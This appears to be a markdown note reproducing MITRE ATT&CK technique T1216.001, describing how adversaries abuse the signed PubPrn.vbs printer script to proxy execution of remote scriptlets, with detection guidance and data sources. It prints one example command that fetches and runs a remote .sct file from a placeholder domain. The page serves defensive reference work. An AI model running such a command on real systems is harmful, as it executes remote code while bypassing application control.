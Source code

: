 ```yaml
---
created: 2020-02-03
last_modified: 2022-04-18
version: 2.0
tactics: Defense Evasion
url: https://attack.mitre.org/techniques/T1216/001
platforms: Windows
tags: [T1216_001, techniques, Defense_Evasion]
---
```


## System Script Proxy Execution- PubPrn

### Description

Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [Visual Basic](https://attack.mitre.org/techniques/T1059/005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the [Windows Command Shell](https://attack.mitre.org/techniques/T1059/003) via <code>Cscript.exe</code>. For example, the following code publishes a printer within the specified domain: <code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>.(Citation: pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).

### Detection

Monitor script processes, such as `cscript`, and command-line parameters for scripts like PubPrn.vbs that may be used to proxy execution of malicious files.

### Defenses Bypassed

Application Control, Digital Certificate Validation

### Data Sources

  - Command: Command Execution
  -  Process: Process Creation
  -  Script: Script Execution
### Detection Rule

```query
tag: detection_rule
tag: T1216_001
```

### Rule Testing

```query
tag: atomic_test
tag: T1216_001
```
